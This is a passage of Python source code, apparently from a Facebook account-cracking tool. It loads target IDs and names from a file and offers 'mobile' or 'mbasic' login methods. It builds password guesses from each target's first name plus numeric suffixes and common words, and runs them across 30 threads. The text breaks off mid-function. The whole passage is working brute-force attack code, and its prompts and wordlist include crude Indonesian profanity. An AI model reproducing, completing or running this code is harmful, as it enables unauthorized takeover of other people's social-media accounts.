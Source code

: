#-------------[ CRACK-FROM-FILE ]------------------#
def crack_file():
            try:
                fileX = input (f'{P}File Location {M}:{H} ')
                for line in open(fileX, 'r').readlines():
                    id.append(line.strip())
                setting()
            except IOError:
               exit(f"\n{M}File %s not found"%(fileX))
#-------------[ PENGATURAN-IDZ ]---------------#
def setting():
	print(f'{N}[{H}1{N}] Old ')
	print(f'{N}[{H}2{N}] New    {H}[RECOMMEND]{N}')
	print(f'{N}[{H}3{N}] Random {H}[RECOMMEND]{N}')
	print(f'{N}╭[{h}CHOICE METODE{N}')
	hu = input(f'╰─➣{h} ')
	if hu in ['1','01']:
		for tua in sorted(id):
			id2.append(tua)

	elif hu in ['2','02']:
		muda=[]
		for bacot in sorted(id):
			muda.append(bacot)
		bcm=len(muda)
		bcmi=(bcm-1)
		for xmud in range(bcm):
			id2.append(muda[bcmi])
			bcmi -=1
	elif hu in ['3','03']:
		for bacot in id:
			xx = random.randint(0,len(id2))
			id2.insert(xx,bacot)
	else:
		print(f'{N}[{H}+{N}] Pilih Yang Bener Kontooll ')
		exit()
	print(f'{N}[{H}1{N}] Mobile {H}[RECOMMENDED]{N}')
	print(f'{N}[{H}2{N}] Mbasic ')
	print(f'[{h}CHOICE METODE{N}')
	hc = input(f'╰─➣{h} ')
	if hc in ['1','01']:
		method.append('mobile')
	elif hc in ['2','02']:
		method.append('mbasic')
	else:
		method.append('mobile')
	passwrd()
#-------------------[ BAGIAN-WORDLIST ]------------#
def passwrd():
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = ['bagong','sayang','kontol','bangsat']
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456')
					pwv.append(frs+'123456789')